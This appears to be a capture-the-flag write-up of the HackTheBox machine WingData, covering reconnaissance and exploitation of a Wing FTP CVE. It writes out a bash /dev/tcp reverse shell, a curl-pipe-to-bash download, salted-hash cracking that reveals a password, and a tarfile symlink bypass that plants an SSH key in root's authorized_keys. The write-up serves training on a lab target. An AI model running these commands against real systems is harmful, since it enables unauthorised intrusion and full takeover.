


## Introduction

Welcome all! Today we have another easy-difficulty box from HacktheBox, WingData. This one was created by [WackyH4cker](https://app.hackthebox.com/profile/305136) and is a Linux box focused around public CVE exploitation. I enjoyed the box - although the initial compromise CVE was a bit finnicky - but overall, I think it was fairly rated and mostly straightforward. Let's dive in!

> [!question] Spoiler alert!
> In case you're squeamish about this sort of thing, there are a bunch of spoilers ahead - proceed at your own (self-learning) risk. I'll be diving into the nitty-gritty behind solutions where I can, so hopefully you'll be able to learn a thing or two. It's also worth noting that if you're working alongside me, you'll see different IP addresses - since I'm on a VIP subscription, they're deployed on-demand.
{icon="circle-info"}

## Initial Access

First things first - once the box spawns for me, I copy the IP address from the platform and edit my `/etc/hosts` file. For those who are new to this - the `/etc/hosts` file allows Linux to do name-based lookups instead of needing to type in the IP address every time. It's the first file in the name resolution lookup order usually (unless you've changed `nsswitch.conf`). Here's what running `$ man hosts` has to say about the file format:
```
This file is a simple text file that associates IP  addresses  with  host‐
names,  one  line per IP address. For each host a single line should
be present with the following information:

        IP_address canonical_hostname [aliases...]
```

With that in mind, I need to add an entry like the following:

```
10.129.3.20    wingdata.htb
```

Now that `/etc/hosts` is set up, I run an `nmap` scan against all ports, with all of the default checks to catch any low hanging fruit. That ends up looking like this:

```console
$ nmap -sCV -O -oN tcp-full.nmap -p- -vv wingdata.htb

Nmap 7.95 scan initiated Thu Feb 19 11:39:14 2026 as: /usr/lib/nmap/nmap -sCV -O -oN tcp-full.nmap -p- -vv wingdata.htb
Nmap scan report for wingdata.htb (10.129.3.20)
Host is up, received echo-reply ttl 63 (0.050s latency).
Scanned at 2026-02-19 11:39:14 EST for 245s
Not shown: 65533 filtered tcp ports (no-response)

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 a1:fa:95:8b:d7:56:03:85:e4:45:c9:c7:1e:ba:28:3b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2[...]
|   256 9c:ba:21:1a:97:2f:3a:64:73:c1:4c:1d:ce:65:7a:2f (ED25519)
|_ssh-ed25519 AAAAC3[...]
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.66
|_http-title: WingData Solutions
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.66 (Debian)
[...]
```

I've cleaned up the output a bit to make it more readable. We end up seeing two live TCP ports, `22/ssh` and `80/http`. Generally speaking SSH isn't a likely vector, so let's start with examining the HTTP server - browsing to it at `http://wingdata.htb` shows us the homepage of a fictional company named WingData, a file sharing company. Hovering over the "Client Portal" button reveals a separate URL with a hostname we'll need to add to `/etc/hosts` to resolve - `ftp.wingdata.htb`.



We could also find this a different way, though. Web servers like Apache are often set up to use [name-based virtual host routing](https://httpd.apache.org/docs/2.4/vhosts/name-based.html), which helps us to reach the correct site when multiple are hosted on the same box. The rundown is that it checks based on the `Host` header provided by the client and routes to the appropriate site - and since that's the field in question, we can use `ffuf` to fuzz out different subdomains like this:

```console
$ ffuf -u 'http://wingdata.htb' -H 'Host: FUZZ.wingdata.htb' -w /opt/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -fw 21

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://wingdata.htb
 :: Wordlist         : FUZZ: /opt/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.wingdata.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 21
________________________________________________

ftp                     [Status: 200, Size: 678, Words: 44, Lines: 10, Duration: 57ms]
:: Progress: [100000/100000] :: Job [1/1] :: 840 req/sec :: Duration: [0:02:03] :: Errors: 0 ::
```

As before, we add `ftp.wingdata.htb` to our `/etc/hosts` file and we can visit the site directly. This time, we're greeted with a login page for a software - WingFTP Server v7.4.3:



### WingFTP

From here we have two routes presented to use - we either need to find a way to enumerate deeper and find credentials for the FTP site, or see if there's any sort of public exploit that's been disclosed for the software in use. It's usually worth a quick look for any exploit code if you have even the slightest hint at what might be on the box, so Google's where I went next. In this case Wing FTP 7.4.3 has a pretty major unauthenticated RCE in [CVE-2025-47812](https://nvd.nist.gov/vuln/detail/CVE-2025-47812), and checking around leads us to [this Python script on ExploitDB](https://www.exploit-db.com/exploits/52347) that we can run against it.  

It's worth showing off another built-in Kali tool here - if you're new to this and trying to find an easy way to cut through the noise, the `searchsploit` tool automatically queries the ExploitDB disclosures and helps us to find ones that match the software we're encountering. Just update the local database with `searchsploit -u` and then we're off to the races; note that the unauthenticated exploit for v7.4.3 is listed at `multiple/remote/52347.py`. We can inspect the exploit with `searchsploit -x 52347` and copy it locally with `searchsploit -m 52347` after that:

```console
$ searchsploit -u
[i] Updating via apt package management (Expect weekly-ish updates): exploitdb

Hit:1 http://http.kali.org/kali kali-rolling InRelease
Hit:2 https://packages.microsoft.com/repos/code stable InRelease
[...]

[*] apt update finished

$ searchsploit wing ftp
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
Wing FTP Server - (Authenticated) Command Execution (Metasploit)     | windows/remote/34517.rb
Wing FTP Server - Authenticated CSRF (Delete Admin)                  | php/webapps/48200.txt
Wing FTP Server 3.2.4 - Cross-Site Request Forgery                   | multiple/webapps/10821.txt
Wing FTP Server 4.3.8 - Remote Code Execution (RCE) (Authenticated)  | windows/remote/50720.py
Wing FTP Server 6.0.7 - Unquoted Service Path                        | windows/local/47818.txt
Wing FTP Server 6.2.3 - Privilege Escalation                         | windows/local/48160.py
Wing FTP Server 6.2.5 - Privilege Escalation                         | multiple/webapps/48154.sh
Wing FTP Server 6.3.8 - Remote Code Execution (Authenticated)        | lua/webapps/48676.txt
Wing FTP Server 7.4.3 - Unauthenticated Remote Code Execution  (RCE) | multiple/remote/52347.py
Wing FTP Server 8.1.3 - Authenticated Remote Code Execution          | multiple/remote/52589.txt
Wing FTP Server Admin 4.4.5 - Cross-Site Request Forgery (Add User)  | php/webapps/36992.txt
Wing FTP Server Admin 4.4.5 - Multiple Vulnerabilities               | windows/webapps/36861.txt
--------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

$ searchsploit -m 52347
  Exploit: Wing FTP Server 7.4.3 - Unauthenticated Remote Code Execution  (RCE)
      URL: https://www.exploit-db.com/exploits/52347
     Path: /usr/share/exploitdb/exploits/multiple/remote/52347.py
    Codes: CVE-2025-47812
 Verified: False
File Type: Python script, ASCII text executable
Copied to: ./52347.py
```

Now that we have a copy of the exploit using either method, let's run a basic check to see if we have code execution. Let's start with some small commands just to see what account the process is running under and what directory we're in:

```console
$ python3 poc.py -u 'http://ftp.wingdata.htb'

[*] Testing target: http://ftp.wingdata.htb
[+] http://ftp.wingdata.htb is vulnerable!
                                                                                                                                                         
$ python3 poc.py -u 'http://ftp.wingdata.htb' -c 'whoami'

[*] Testing target: http://ftp.wingdata.htb
[+] Sending POST request to http://ftp.wingdata.htb/loginok.html with command: 'whoami' and username: 'anonymous'
[+] UID extracted: 247f607fc74bbb20358e42051eaba60df528764d624db129b32c21fbca0cb8d6
[+] Sending GET request to http://ftp.wingdata.htb/dir.html with UID: 247f607fc74bbb20358e42051eaba60df528764d624db129b32c21fbca0cb8d6

--- Command Output ---
wingftp
----------------------

$ python3 poc.py -u 'http://ftp.wingdata.htb' -c 'pwd'                                          

[...]
--- Command Output ---
/opt/wftpserver
----------------------
```

It's possible to overdo it with this exploit and cause the server to load up too many sessions, causing an `UID not found` error coming out of the script. The quick explanation is that this CVE targets the `anonymous` user and sets up a new session each time it logs in with the account - and there's an upper limit for how many sessions can be active at a given time. If you do hit that, it'll look like this:

```console
$ python3 poc.py -u 'http://ftp.wingdata.htb' -c 'whoami'

[*] Testing target: http://ftp.wingdata.htb
[+] Sending POST request to http://ftp.wingdata.htb/loginok.html with command: 'whoami' and username: 'anonymous'
[-] UID not found in Set-Cookie. Exploit might have failed or response format changed.
```

From here, we can start working our way towards a reverse shell. First, set up a listener to catch the shell in a new terminal tab or pane in tmux...

```console
$ ncat -lvp 9001
Ncat: Version 7.99 ( https://nmap.org/ncat )
Ncat: Listening on [::]:9001
Ncat: Listening on 0.0.0.0:9001
```

Then, set up a Python development server that's hosting up a reverse shell bash script with our IP and listening port. Make sure to do this inside of a clean directory to limit the files you're exposing:

```console
$ mkdir ./srv && cd ./srv
$ echo -n 'bash  -i >& /dev/tcp/10.10.14.188/9001 0>&1' > rev.sh
$ python3 -m http.server 9002
```

And finally, we send the command to make Wing FTP download the reverse shell, immediately piping it into bash for execution. If all goes well, it will appear the exploit has hung until it times out around 10 seconds later.

```console
$ python3 poc.py -u 'http://ftp.wingdata.htb' -c 'curl 10.10.14.188:9002/rev.sh|bash'                                                 

[*] Testing target: http://ftp.wingdata.htb
[+] Sending POST request to http://ftp.wingdata.htb/loginok.html with command: 'curl 10.10.14.188:9002/rev.sh|bash' and username: 'anonymous'
[+] UID extracted: e6946b721604ab1c38483b5b4bdd8ffef528764d624db129b32c21fbca0cb8d6
[+] Sending GET request to http://ftp.wingdata.htb/dir.html with UID: e6946b721604ab1c38483b5b4bdd8ffef528764d624db129b32c21fbca0cb8d6
[-] Error sending GET request to http://ftp.wingdata.htb/dir.html: HTTPConnectionPool(host='ftp.wingdata.htb', port=80): Read timed out. (read timeout=10)
```

And if we check on our listener, we should see a connection from the `wingftp` user!

```console
$ ncat -lvp 9001
Ncat: Version 7.99 ( https://nmap.org/ncat )
Ncat: Listening on [::]:9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.129.244.106:51830.
bash: cannot set terminal process group (3506): Inappropriate ioctl for device
bash: no job control in this shell
[wingftp@wingdata:/opt/wftpserver]$
```

### Shell TTY Upgrade
The last thing to do is to set up better terminal access through a TTY upgrade - for those running zsh, [this article](https://blog.mrtnrdl.de/infosec/2019/05/23/obtain-a-full-interactive-shell-with-zsh.html) explains how to upgrade to an interactive shell from your reverse shell. In case it ever goes down, here are the steps I use:

First, in the reverse shell figure out which version of `python` you have access to, and then run this to spawn a new shell: `python3 -c 'import pty; pty.spawn("/bin/bash")'`. After that spawns, background your `nc/ncat` reverse shell session with the hotkey `Ctrl + Z`. This will return you to your local shell. Next, get the number of rows and columns in your terminal with the following command:

```
stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
```

After you get that answer back, we re-foreground our `netcat` session by typing `stty raw -echo; fg` into our terminal.

Once the reverse shell loads, we have to configure it to match what our terminal expects with the following commands:

```console
stty rows <ROWS> cols <COLS>
export TERM=xterm-256color
```

Finally, we reload the shell with `exec /bin/bash`. For my setup, here's how it looks all in one console, including output:

```console
$ ncat -lvp 9001
[...]
bash: no job control in this shell
[wingftp@wingdata:/opt/wftpserver]$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<er$ python3 -c 'import pty; pty.spawn("/bin/bash")'
[wingftp@wingdata:/opt/wftpserver]$ ^Z      <--- CTRL + Z
zsh: suspended  ncat -lvp 9001
                                                                                               $ stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
rows 34
columns 153

$ stty raw -echo; fg

[1]  + continued  ncat -lvp 9001
stty rows 34 cols 153
                                stty rows 34 cols 153
[wingftp@wingdata:/opt/wftpserver]$ export TERM=xterm-256color
[wingftp@wingdata:/opt/wftpserver]$ exec /bin/bash
```

Now that we finally have a fully-interactive terminal, let's see how we can move into an account with better privileges than the `wingftp` service account.

## Gaining Access to Wacky
After gaining the initial access, we need to figure out ways to raise our privileges to root in order to fully compromise the system. In order to do that, we need to figure out the differential between our account, other accounts, and root, and what steps we can ultimately take to get there. Let's start with a quick check to see what other accounts are on the box, then move on to using LinPeas to automate some of the discovery process:

```console
[wingftp@wingdata:/opt/wftpserver]$ cat /etc/passwd|grep -v nologin|grep -v false
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
wingftp:x:1000:1000:WingFTP Daemon User,,,:/opt/wingftp:/bin/bash
wacky:x:1001:1001::/home/wacky:/bin/bash
```

Given a little bit of meta-gaming, you'll realize that the `wacky` account is probably the one we need to get into - it's on the rare-r side that we'll jump straight up to root, although it's not out of the question. We'll want to run some enumeration scripts like `LinPeas` and `LinuxExploitSuggester` to help automate the peck-and-hunt process of getting from a web user to `wacky`'s account. 

Running LinPeas, it highlighted a few interesting things under the `/opt/wftpserver` base directory that we should have read access rights on:

```console
[wingftp@wingdata:/opt/wftpserver]$ ls -la /opt/wftpserver/Data/1/users/
total 28
drwxr-x--- 2 wingftp wingftp 4096 Jun 26 12:09 .
drwxr-x--- 4 wingftp wingftp 4096 Feb  9 08:19 ..
-rwxr-x--- 1 wingftp wingftp 2842 Jun 26 12:09 anonymous.xml
-rwxr-x--- 1 wingftp wingftp 2846 Nov  2  2025 john.xml
-rw-rw-rw- 1 wingftp wingftp 2847 Nov  2  2025 maria.xml
-rw-rw-rw- 1 wingftp wingftp 2847 Nov  2  2025 steve.xml
-rw-rw-rw- 1 wingftp wingftp 2856 Nov  2  2025 wacky.xml
```

If we examine those XML files, we'll find a password field like this towards the top of each of the user's information:
```console
[wingftp@wingdata:/opt/wftpserver]$ head -n 8 /opt/wftpserver/Data/1/users/wacky.xml
<?xml version="1.0" ?>
<USER_ACCOUNTS Description="Wing FTP Server User Accounts">
    <USER>
        <UserName>wacky</UserName>
        <EnableAccount>1</EnableAccount>
        <EnablePassword>1</EnablePassword>
        <Password>32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca</Password>
        <ProtocolType>63</ProtocolType>
```

This step took me a small bit - consulting the [WingData password hashing documentation](https://www.wftpserver.com/help/ftpserver/index.html?compression.htm) helped me to figure out that by default, Wing FTP is set to use `SHA256` with a salt. In the docs, it says the default salt is `WingFTP` - add that to the end of the hash and now `hashcat` can successfully crack the password.

```console
$ hashcat -m 1410 -a 0 '32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca:WingFTP' /usr/share/wordlists/rockyou.txt 
hashcat (v7.1.2) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
[...]
* Keyspace..: 14344385
* Runtime...: 0 secs

32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca:WingFTP:!#7Blushing^*Bride5
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1410 (sha256($pass.$salt))
Hash.Target......: 32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b87...ingFTP
Time.Started.....: Fri Jun 26 12:19:43 2026 (3 secs)
Time.Estimated...: Fri Jun 26 12:19:46 2026 (0 secs)

[...]

Hardware.Mon.#01.: Util: 47%

Started: Fri Jun 26 12:19:23 2026
Stopped: Fri Jun 26 12:19:47 2026
```

With that, we're able to SSH as `wacky@wingdata.htb` with the password `!#7Blushing^*Bride5` !

```console
[wacky@wingdata:~]$ whoami; id
wacky
uid=1001(wacky) gid=1001(wacky) groups=1001(wacky)
```

## Privilege Escalation

Because I now have the password for `wacky`, the first check I do is to run `sudo -l` to see if we have any passwordless scripts or binaries that could be abused:

```console
$ sudo -l
Matching Defaults entries for wacky on wingdata:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User wacky may run the following commands on wingdata:
    (root) NOPASSWD: /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py *
```

Let's look at `/opt/backup_clients/restore_backup_clients.py` to see if it has any interesting functions or vulnerabilities present. I've removed a lot of the uninteresting bits to keep it shorter:

```python
#!/usr/bin/env python3                                                                                                                                   
[...]

BACKUP_BASE_DIR = "/opt/backup_clients/backups"                                                                                                          
STAGING_BASE = "/opt/backup_clients/restored_backups"                                                                                                    

def validate_backup_name(filename):                                                                                                                      
    if not re.fullmatch(r"^backup_\d+\.tar$", filename):                                                                                                 
        return False                                                        
    client_id = filename.split('_')[1].rstrip('.tar')                   
    return client_id.isdigit() and client_id != "0"                                                                                                      

def validate_restore_tag(tag):                                                                                                                           
    return bool(re.fullmatch(r"^[a-zA-Z0-9_]{1,24}$", tag))                 

def main():                                                                 
[...]
    if not validate_backup_name(args.backup):
        print("[!] Invalid backup name. Expected format: backup_<client_id>.tar (e.g., backup_1001.tar)", file=sys.stderr)
        sys.exit(1)
[...]
    if not args.restore_dir.startswith("restore_"):
        print("[!] --restore-dir must start with 'restore_'", file=sys.stderr)
        sys.exit(1)

    tag = args.restore_dir[8:]
    if not tag:
        print("[!] --restore-dir must include a non-empty tag after 'restore_'", file=sys.stderr)
        sys.exit(1)

    if not validate_restore_tag(tag):
        print("[!] Restore tag must be 1–24 characters long and contain only letters, digits, or underscores", file=sys.stderr)
        sys.exit(1)
[...]
    os.makedirs(staging_dir, exist_ok=True)
    try:
        with tarfile.open(backup_path, "r") as tar:
            tar.extractall(path=staging_dir, filter="data")
        print(f"[+] Extraction completed in {staging_dir}")
        except (tarfile.TarError, OSError, Exception) as e:
        print(f"[!] Error during extraction: {e}", file=sys.stderr)
        sys.exit(2)
```

So the gist of this script is that it's a backup helper - it grabs a tarball we provide at `/opt/backup_clients/backups/backup_*.tar` and restores it to `/opt/backup_clients/restored_backups/<restore_tag>`. We can verify this by setting up a tarball and running the script as intended:

```console
[wacky@wingdata:~]$ touch test.txt
[wacky@wingdata:~]$ tar cvf backup_1001.tar test.txt
test.txt
[wacky@wingdata:~]$ cp backup_1001.tar /opt/backup_clients/backups/
[wacky@wingdata:~]$ sudo /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py -b backup_1001.tar -r restore_tmp
[+] Backup: backup_1001.tar
[+] Staging directory: /opt/backup_clients/restored_backups/restore_tmp
[+] Extraction completed in /opt/backup_clients/restored_backups/restore_tmp
[wacky@wingdata:~]$ ls -al /opt/backup_clients/restored_backups/restore_tmp
total 8
drwxr-xr-x 2 root root  4096 Jun 26 13:05 .
drwxr-x--- 3 root wacky 4096 Jun 26 13:05 ..
-rw-r--r-- 1 root root     0 Jun 26 13:05 test.txt
```

My immediate thought was to try the traditional exploits like path traversal but had no luck there. In that same vein though is symlink exploits - and that train of thought lead me to the privilege escalation for this box, [CVE-2025-4517](https://nvd.nist.gov/vuln/detail/CVE-2025-4517). With some digging, I found [some exploit code](https://github.com/0xDTC/CVE-2025-4517-tarfile-PATH_MAX-bypass/blob/master/CVE-2025-4517.py) that covered the CVE nicely. It works by creating a symlink that's longer than the Python PATH_MAX that's usable by `os.path.realpath()`, effectively bypassing the check that `tarfile.extractall(filter="data")` uses to ensure symlinks aren't used in the tar process.  

To start using it, first we need to generate a new keyfile to add to WingData once the exploit runs. Do this in a local terminal, not the SSH session as `wacky`:

```console
$ ssh-keygen -t ed25519 -f ./root_id
```

Once we have the key in hand, we need to edit a few lines in the script. Under the configuration section, modify the following lines. Make sure to keep the newline and insert your key under the `PAYLOAD` section:

```
DEST_DIR = "/opt/backup_clients/backups/"
DEPTH_TO_ROOT = 4
PAYLOAD = b"ssh-ed25519 [...]\n"
OUTPUT = "backup_1001.tar"
```

Last preparation step - we need to copy the exploit code to wingdata with `scp`:

```console
$ scp ./privesc.py wacky@wingdata.htb:/home/wacky/priv.py                 
wacky@wingdata.htb's password:        
privesc.py                                                       100% 9025   182.0KB/s   00:00
```

Now we finally run the exploit and copy the resulting malicious tarball to the backups directory as normal, and trigger it by running the `restore_backup_clients.py` script as before to overwrite the root `authorized_keys` file:

```console
[wacky@wingdata:~]$ python3 priv.py
[*] Destination directory length: 28
[*] Component length: 239
[*] Estimated resolved path length: 4108
[*] PATH_MAX: 4096

[+] Created 16 directory/symlink pairs
[+] Created 254-char escaping symlink (target: ../../../../../../../../../../../../../../../../)
[+] Created 'escape' symlink (depth to root: 4)
[+] Added payload file: escape/root/.ssh/authorized_keys

[*] Created backup_1001.tar
[*] Target file on extraction: /root/.ssh/authorized_keys

[!] Transfer this tar to the target and trigger extraction
[!] via the vulnerable Python script using filter='data'
[wacky@wingdata:~]$ cp backup_1001.tar /opt/backup_clients/backups/
[wacky@wingdata:~]$ sudo /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py -b backup_1001.tar -r restore_tmp
[+] Backup: backup_1001.tar
[+] Staging directory: /opt/backup_clients/restored_backups/restore_tmp
[+] Extraction completed in /opt/backup_clients/restored_backups/restore_tmp
```

And now for the final step, SSH in as `root@wingdata.htb` using our key we generated:

```console
$ ssh -i root_id root@wingdata.htb                       
Linux wingdata 6.1.0-42-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.159-1 (2025-12-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jun 26 13:19:38 2026 from 10.10.14.188
[root@wingdata:~]# whoami; id
root
uid=0(root) gid=0(root) groups=0(root)
```

And with that, we've fully compromised WingData - hopefully you enjoyed the writeup and learned some new skills!

## References
Virtual Host Routing: [https://httpd.apache.org/docs/2.4/vhosts/name-based.html](https://httpd.apache.org/docs/2.4/vhosts/name-based.html)  
CVE-2025-47812 Posting: [https://nvd.nist.gov/vuln/detail/CVE-2025-47812](https://nvd.nist.gov/vuln/detail/CVE-2025-47812)  
RCE Article: [https://www.rcesecurity.com/2025/06/what-the-null-wing-ftp-server-rce-cve-2025-47812/](https://www.rcesecurity.com/2025/06/what-the-null-wing-ftp-server-rce-cve-2025-47812/)  
RCE PoC Code: [https://www.exploit-db.com/exploits/52347](https://www.exploit-db.com/exploits/52347)  
WingData Password Hashing Documentation: [https://www.wftpserver.com/help/ftpserver/index.html?compression.htm](https://www.wftpserver.com/help/ftpserver/index.html?compression.htm)  
CVE-2025-4517: [https://nvd.nist.gov/vuln/detail/CVE-2025-4517](https://nvd.nist.gov/vuln/detail/CVE-2025-4517)  
Privilege Escalation PoC Code: [https://github.com/0xDTC/CVE-2025-4517-tarfile-PATH_MAX-bypass/blob/master/CVE-2025-4517.py](https://github.com/0xDTC/CVE-2025-4517-tarfile-PATH_MAX-bypass/blob/master/CVE-2025-4517.py)  